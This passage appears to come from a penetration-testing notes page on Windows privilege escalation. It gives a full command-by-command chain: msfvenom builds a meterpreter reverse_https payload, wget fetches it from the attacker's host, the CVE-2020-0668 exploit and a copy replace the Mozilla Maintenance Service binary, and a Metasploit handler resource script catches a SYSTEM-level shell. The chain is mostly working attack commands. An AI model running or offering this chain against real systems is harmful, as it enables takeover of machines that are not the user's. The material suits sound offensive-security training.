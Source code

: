 Let's generate a malicious maintenanceservice.exe:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<OUR IP> LPORT=8443 -f exe > maintenanceservice.exe
```

Copy it in two files:
```console
PS C:\zeropio> wget http://<OUR IP>/maintenanceservice.exe -O maintenanceservice.exe
PS C:\zeropio> wget http://<OUR IP>/maintenanceservice.exe -O maintenanceservice2.exe
```

Let's run the exploit. It accepts two arguments, the source and destination files:
```console
C:\zeropio> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\user\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

The exploit runs and executing icacls again:
```console
C:\zeropio> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

We can overwrite the **maintenanceservice.exe** binary in `c:\Program Files (x86)\Mozilla Maintenance Service`{: .filepath} with a good working copy of our malicious binary created earlier before proceeding to start the service. Let's move the good copy that was not corrupted by the exploit **maintenanceservice2.exe** to the Program Files directory, making sure to rename the file properly and remove the 2 or the service won't start:
```console
C:\zeropio> copy /Y C:\Users\user\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Next, save the below commands to a Resource Script file named **handler.rc**:
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launch Metasploit with that settings:
```console
zero@pio$ sudo msfconsole -r handler.rc 
```

Start the service, and we should get a session as **NT AUTHORITY\SYSTEM**.

## Vulnerable Services

We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. As covered previously, let's start by enumerating installed applications to get a lay of the land:
```console
C:\zeropio> wmic product get name
```
